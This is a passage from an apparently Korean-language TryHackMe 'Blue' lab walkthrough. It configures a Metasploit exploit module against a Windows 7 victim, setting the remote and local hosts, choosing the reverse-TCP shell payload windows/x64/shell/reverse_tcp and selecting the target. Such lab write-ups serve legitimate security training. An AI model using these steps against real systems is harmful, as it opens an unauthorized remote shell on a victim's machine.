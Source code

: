 이를 실행하여 설정할 수 있습니다:

<div class="content-ad"></div>


set rhosts [피해자 IP]
set lhost [tun0 IP 또는 공격 상자 IP]
set payload windows/x64/shell/reverse_tcp


위 단계를 마치면 옵션을 실행하여 설정한 모든 옵션을 확인하여 올바른지 확인할 수 있습니다.

![이미지](/assets/img/2024-06-23-TryHackMeBlue_4.png)

또한 언급을 잊은 더 하나의 옵션을 설정할 수 있습니다. 그것은 목표입니다.


<div class="content-ad"></div>

피해자 기기의 운영 체제를 알고 있기 때문에 다음 명령을 실행할 수 있습니다:

```js
show targets
set target 1
```

![image](/assets/img/2024-06-23-TryHackMeBlue_5.png)

여기에는 취약점에 대한 사용 가능한 대상이 표시되며, 우리가 원하는 대상을 설정합니다. 이 경우 Windows 7입니다.
